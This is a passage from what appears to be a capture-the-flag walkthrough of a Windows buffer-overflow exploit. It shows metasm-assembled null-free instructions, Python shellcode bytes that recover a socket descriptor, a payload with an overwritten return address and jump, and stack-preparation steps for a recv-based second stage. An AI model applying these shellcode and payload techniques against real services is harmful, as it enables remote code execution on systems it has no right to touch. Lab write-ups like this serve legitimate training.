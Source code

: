 Unfortunately, `add az, 0x48` has nulls in it:

```

metasm > add ax, 0x48
"\x66\x05\x48\x00"

```

I’ll add 0x149 and then subtract 0x101:

```

metasm > add ax, 0x149
"\x66\x05\x49\x01"
metasm > sub ax, 0x101
"\x66\x2d\x01\x01"

```

The updated payload is now:

```

recv_sc = (
        # get socket descriptor in esi
        b"\x54"               # push esp
        b"\x58"               # pop eax
        b"\x66\x05\x49\x01"   # add ax, 0x149
        b"\x66\x2d\x01\x01"   # sub ax, 0x101
        b"\x8b\x30"           # mov esi, dword [eax]
        )

payload = recv_sc + b"\xCC"*(66-len(recv_sc)) + p32(0x7190239f) + b"\xeb\xb8"

```

On running this, with a break at the `recv`, I can see the socket descriptor, in this case, as 0x114. Continuing to the shellcode, ESI now has that value:

![image-20220204153652747](https://0xdfimages.gitlab.io/img/image-20220204153652747.png)

#### Separate EIP and ESP

From here, I’m going to prep the stack to call `recv`, but first, there’s an issue I need to take care of. Right now, the stack looks like this:

[![](https://0xdfimages.gitlab.io/img/hancliffe-stack-need-space.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/hancliffe-stack-need-space.png)

The next thing I’m going to do is `call recv`, which will start by creating a new stack frame, pushing ESP up in the diagram towards EIP, and telling `recv` it can write in this space. I don’t want EIP to run into ESP this way, so I’ll just subtract a value from ESP to move it up above EIP

Next I’m going to make some more space on the stack. Currently, EIP is 0x43 bytes less than (above) ESP, so I’ll just subtract an even 0x64 to clear the space:
